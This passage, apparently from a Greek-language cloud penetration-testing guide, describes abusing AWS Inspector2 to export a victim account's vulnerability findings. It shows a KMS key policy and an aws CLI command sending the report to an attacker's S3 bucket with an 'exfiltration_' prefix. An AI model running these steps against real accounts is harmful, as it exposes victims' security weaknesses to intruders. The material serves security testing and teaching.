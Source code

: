 ```json
"aws:SourceAccount": "<victim-account-id>"
},
"ArnLike": {
"aws:SourceArn": "arn:aws:inspector2:us-east-1:<victim-account-id>:report/*"
}
}
}
]
}
```
2. **Δημιουργήστε ένα κλειδί Amazon KMS** και επισυνάψτε μια πολιτική σε αυτό ώστε να είναι χρησιμοποιήσιμο από τον Amazon Inspector του θύματος:
```json
{
"Version": "2012-10-17",
"Id": "key-policy",
"Statement": [
{
...
},
{
"Sid": "Allow victim Amazon Inspector to use the key",
"Effect": "Allow",
"Principal": {
"Service": "inspector2.amazonaws.com"
},
"Action": [
"kms:Encrypt",
"kms:Decrypt",
"kms:ReEncrypt*",
"kms:GenerateDataKey*",
"kms:DescribeKey"
],
"Resource": "*",
"Condition": {
"StringEquals": {
"aws:SourceAccount": "<victim-account-id>"
}
}
}
]
}
```
3. Εκτελέστε την εντολή για **δημιουργία της αναφοράς ευρημάτων** εξάγοντας την:
```bash
aws --region us-east-1 inspector2 create-findings-report --report-format CSV --s3-destination bucketName=<attacker-bucket-name>,keyPrefix=exfiltration_,kmsKeyArn=arn:aws:kms:us-east-1:123456789012:key/1a2b3c4d-1a2b-1a2b-1a2b-1a2b3c4d5e6f
```
* **Πιθανές Επιπτώσεις**: Δημιουργία και εξαγωγή λεπτομερών αναφορών ευπαθειών και λογισμικού, αποκτώντας πληροφορίες σχετικά με συγκεκριμένες ευπάθειες και αδυναμίες ασφαλείας.

